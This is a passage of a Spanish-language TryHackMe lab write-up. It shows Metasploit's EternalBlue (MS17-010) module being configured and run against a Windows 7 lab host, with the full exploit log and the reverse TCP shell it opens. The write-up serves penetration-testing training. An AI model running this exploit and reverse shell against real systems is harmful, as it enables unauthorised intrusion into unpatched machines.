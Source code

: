 ```shell

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Mediante `show options` vemos que necesita y configuramos `RHOSTS` mediante `setg RHOSTS 10.10.151.180`. Adicionalmente sugiero configurar un `LHOST` a la IP ya que muchas veces no detectara de forma apropiada la IP de la VPN de TryHackMe (esto me llevo a tener que levantar la maquina multiples veces).

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.13.51.53:4444 
[*] 10.10.206.182:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.206.182:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.206.182:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.206.182:445 - The target is vulnerable.
[*] 10.10.206.182:445 - Connecting to target for exploitation.
[+] 10.10.206.182:445 - Connection established for exploitation.
[+] 10.10.206.182:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.206.182:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.206.182:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.206.182:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.206.182:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.206.182:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.206.182:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.206.182:445 - Sending all but last fragment of exploit packet
[*] 10.10.206.182:445 - Starting non-paged pool grooming
[+] 10.10.206.182:445 - Sending SMBv2 buffers
[+] 10.10.206.182:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.206.182:445 - Sending final SMBv2 buffers.
[*] 10.10.206.182:445 - Sending last fragment of exploit packet!
[*] 10.10.206.182:445 - Receiving response from exploit packet
[+] 10.10.206.182:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.206.182:445 - Sending egg to corrupted connection.
[*] 10.10.206.182:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.206.182
[*] Command shell session 1 opened (10.13.51.53:4444 -> 10.10.206.182:49178) at 2024-05-04 17:49:47 -0300
[+] 10.10.206.182:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.206.182:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.206.182:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>

```
Con esto podremos decir "We are in" y ponernos nuestros lentes de sol hacker.
